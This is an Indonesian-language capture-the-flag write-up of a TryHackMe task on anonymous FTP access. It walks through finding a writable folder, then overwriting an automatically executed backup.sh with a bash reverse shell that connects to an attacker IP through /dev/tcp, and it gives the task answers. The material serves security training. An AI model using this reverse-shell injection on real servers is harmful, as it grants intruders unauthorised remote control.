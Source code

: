 # Day 9 | Anyone can be Santa!

`TryHackMe` `Networking` `FTP` `Anonymous login`

---

## Learning Outcomes

Hasil pembelajaran

- Menggunakan FTP dan dasar-dasar FTP Commands 
- Mengetahui kesalahan umum pada konfigurasi FTP
- Privilege Escalation via Automated Script 

## Summary
 
 tldr;
 
 - Masuk ke FTP server dari mesin yang di deploy, gunakan anonymous login
 - Identifikasi folder yang dapat diakses secara penuh oleh user saat ini (anonymous)
 - Lakukan injeksi pada file script otomatis di folder tersebut dengan reverse shell.
 - Upload kembali file yang telah di injeksi lalu setup dan tunggu listener.
 - Ambil flag di /root/flag.txt

## Story

>Even Santa has been having to adopt the "work from home" ethic in 2020. To help Santa out, Elf McSkidy and their team created a file server for The Best Festival Company (TBFC) that uses the FTP protocol. However, an attacker was able to hack this new server. Your mission, should you choose to accept it, is to understand how this hack occurred and to retrace the steps of the attacker.

## Write-up

Sampai saat ini, File Transfer Protokol atau FTP masih banyak digunakan diluar sana untuk file sharing atau bahkan mengupdate websitenya, baik file untuk tampilan maupun konfigurasinya melalui FTP.

Selain protokol ini tidak di enkripsi, kesalahan konfigurasi pada FTP server dapat memperparah ancaman terhadap keamanannya.

Pada task kali ini akan di tunjukkan beberapa kesalahan konfigurasi yang dimaksud.


### Q1 : Name the directory on the FTP server that has data accessible by the "anonymous" user ?

Mesin yang di deploy memiliki FTP server yang dapat diakses secara *anonymous*.

Dengan menggunakan perintah `dir` atau `ls`, terlihat ada satu folder dimana user saat ini (*anonymous*) memiliki  kontrol penuh terhadapnya (*read, write, execute*). Folder tersebut adalah `public`

![6f93fc2af45ca6f816f68cd3c755e74c.png](./_resources/80486704e61d4f229e45d91b4ab4786a.png)

### Q2 : What script gets executed within this directory?
 
Di dalam folder `public` terdapat dua file, yang pertama adalah shell script `backup.sh` dan yang kedua adalah text file `shoppinglist.txt`

Dengan perintah FTP `mget`, kita dapat men-download kedua file tersebut sekaligus.

![198b14665e1ab859bcc3a9025f194ed3.png](./_resources/7ffa79dd780c4bbea8d1b363b9e4504a.png)



- `backup.sh`

    ```
    #!/bin/bash

    # Created by ElfMcEager to backup all of Santa's goodies!

    # Create backups to include date DD/MM/YYYY
    filename="backup_`date +%d`_`date +%m`_`date +%Y`.tar.gz";

    # Backup FTP folder and store in elfmceager's home directory
    tar -zcvf /home/elfmceager/$filename /opt/ftp

    # TO-DO: Automate transfer of backups to backup server
    ```

Berdasarkan informasi yang ada pada task ini, shell script di atas dieksekusi secara otomatis. 

Selanjutnya konten dari file `shoppinglist.txt` digunakan untuk menjawab pertanyaan dibawah.

### Q3: What movie did Santa have on his Christmas shopping list?

Berikut isi filenya :

- `shoppinglist.txt`
    ```
    $ cat shoppinglist.txt
    The Polar Express Movie
    ```

### Q4 : Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

Sebelumnya, kita telah melihat bahwa user anonymous mempunyai full control terhadap folder `public` yang ada pada FTP Server. Di dalam folder tersebut terdapat sebuah shell script yang dieksekusi secara berkala (otomatis).

Berdasarkan hal tersebut, mengganti isi kode dari shell script dengan baris kode untuk melakukan koneksi balik (*reverse shell*) adalah hal yang memungkinkan.

`backup.sh` :

```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.9.30.115/9000 0>&1'
```

![19f38980069b7a1e64abccde73b7ad75.png](./_resources/140cfc9b6d0942d48876627d68687b1f.png)


![c824b21f38dfc8b5140fb333b5bab1bb.png](./_resources/9214c28085fa44398cdc402349bc47fd.png)

## Tips : Quick & Dirty Bash Reverse Shell Generator

![7f06788c8f5e4bebbf48e9fd3c5446ad.png](./_resources/a1d373ad1bf74a689235f7faf56a1441.png)


